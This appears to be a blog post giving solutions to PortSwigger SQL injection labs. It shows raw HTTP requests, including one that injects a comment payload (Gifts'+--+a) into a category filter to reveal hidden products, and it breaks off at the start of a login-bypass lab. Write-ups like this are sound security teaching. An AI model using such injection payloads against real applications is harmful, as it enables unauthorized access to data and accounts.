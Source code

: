 ```yaml
---
layout: post
title:  SQL Injection Labs
date:   2023-10-11 03:49:10 +0100
categories: sql-injection
post_id: 5
---
```


What follows is solution to various sql injection labs. The labs are from [Portswigger](https://portswigger.net) and [PentesterLab](https://pentesterlab.com).

## Portswigger Labs

### [Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Lab 1 Task

***This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:***

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

***To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.***

### Lab 1 Solution

Initial request to the product category endpoint:

```http
GET /filter?category=Gifts HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The image below shows the response to the above request:

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_16-09_normal_response.png)

We can see from the above response only 3 products are displayed. To solve the lab we will attempt to comment out the `AND released = 1` part of the query and see if we can get the unreleased products. To do this we will use the `--` comment syntax. The `--` syntax comments out everything after it. So we will send the following request:

```http
GET /filter?category=Gifts'+--+a HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

The image below shows the response to the above request:

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_17-27_response_with_injection.png)

We can see that 4 products are now displayed, which means we have successfully injected the query. And that's it for lab 1 we have successfully view an unreleased product.

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_17-31_lab1_solved.png)

### [Lab 2: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Lab 2 Task

***This lab contains a SQL injection vulnerability in the login function.***

***To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.***

### Lab 2 Solution
